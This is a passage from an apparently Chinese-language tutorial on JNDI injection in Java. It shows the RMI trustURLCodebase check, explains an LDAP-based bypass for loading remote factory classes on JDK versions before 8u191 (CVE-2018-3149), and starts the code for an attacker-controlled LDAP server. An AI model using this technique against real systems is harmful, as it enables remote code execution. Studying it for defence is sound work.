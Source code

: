 如果从远程加载则会抛出异常

```java
if (var8 != null && var8.getFactoryClassLocation() != null && !trustURLCodebase) {
    throw new ConfigurationException("The object factory is untrusted. Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.");
}
Exception in thread "main" javax.naming.ConfigurationException: The object factory is untrusted. Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.
at com.sun.jndi.rmi.registry.RegistryContext.decodeObject(RegistryContext.java:495)
at com.sun.jndi.rmi.registry.RegistryContext.lookup(RegistryContext.java:138)
at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:205)
at javax.naming.InitialContext.lookup(InitialContext.java:417)
at demo.JNDI_Test.main(JNDI_Test.java:7)
```

## LDAP+JNDI

LDAP，全称Lightweight Directory Access Protocol，即**轻量级目录访问协议**，和Windows域中的LDAP概念差不多，这里就不进行过多展开了。

### JDK < 8u191

我们在上面讲了在JDK 6u132, JDK 7u122, JDK 8u113中Java限制了通过RMI远程加载Reference工厂类，com.sun.jndi.rmi.object.trustURLCodebase、com.sun.jndi.cosnaming.object.trustURLCodebase 的默认值变为了false，即默认不允许通过RMI从远程的Codebase加载Reference工厂类。

但是需要注意的是JNDI不仅可以从通过RMI加载远程的Reference工厂类，也可以通过LDAP协议加载远程的Reference工厂类，这就可以加以利用，来绕过限制.

但可惜的是在之后的版本Java也对LDAP Reference远程加载Factory类进行了限制，在JDK 11.0.1、8u191、7u201、6u211之后 com.sun.jndi.ldap.object.trustURLCodebase属性的值默认值也变为false，对应的CVE编号为：**CVE-2018-3149**

服务端maven需要添加如下依赖：

```java
<dependency>
    <groupId>com.unboundid</groupId>
    <artifactId>unboundid-ldapsdk</artifactId>
    <version>4.0.0</version>
</dependency>
```

**服务端ldap_server.java**

```java
package JNDI;

import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

public class ldap_sever {

    private static final String LDAP_BASE = "dc=example,dc=com";

```